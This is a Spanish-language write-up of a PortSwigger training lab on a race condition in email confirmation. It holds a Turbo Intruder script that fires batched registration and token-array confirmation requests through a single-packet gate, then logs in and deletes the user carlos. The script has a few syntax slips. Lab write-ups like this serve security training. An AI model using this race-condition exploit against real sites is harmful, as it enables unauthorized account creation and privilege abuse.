 Una vez lanzado el ataque, revisamos los resultados en función del código de estado y el tamaño de la respuesta. Si alguna de las confirmaciones devuelve un 200 y menciona que el registro del usuario fue exitoso, tomamos nota del nombre de usuario.

Luego, usamos la contraseña estática definida en el ataque para iniciar sesión con la nueva cuenta. Finalmente, accedemos al panel de administración y eliminamos al usuario carlos, resolviendo así el laboratorio.

Esta clase muestra cómo confirmar el éxito del ataque y completar la explotación de principio a fin.

Solucion
 y quedaria asi
(def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    confirmation_email =  '''POST /confirm?token[]= HTTP/2
Host: 0ade005a033104308015582a00e700ce.web-security-academy.net
Cookie: phpsessionid=RxwYlBG5FYgFJmUUJwzvxA29D7mv7opF
Content-Length: 0

'''
    
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = "Lobotech" + str(i)
        engine.queue(target.req, username, gate=str(i))

        for j in range(50):
            engine.queue(confirmation_email, gate=str(i))

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate(str(i))


def handleResponse(req, interesting):
    table.add(req))


me sirvio el payload el otro payload

![Pasted_image_20250901230643.png](Imagenes/Pasted_image_20250901230643.png)
asi que probamos logearnos
![Pasted_image_20250901230835.png](Imagenes/Pasted_image_20250901230835.png)
y eliminamos al carlos
![Pasted_image_20250901230905.png](Imagenes/Pasted_image_20250901230905.png)
asi quedo
![Pasted_image_20250901230936.png](Imagenes/Pasted_image_20250901230936.png)
![Pasted_image_20250901230959.png](Imagenes/Pasted_image_20250901230959.png)
![Pasted_image_20250901231017.png](Imagenes/Pasted_image_20250901231017.png)
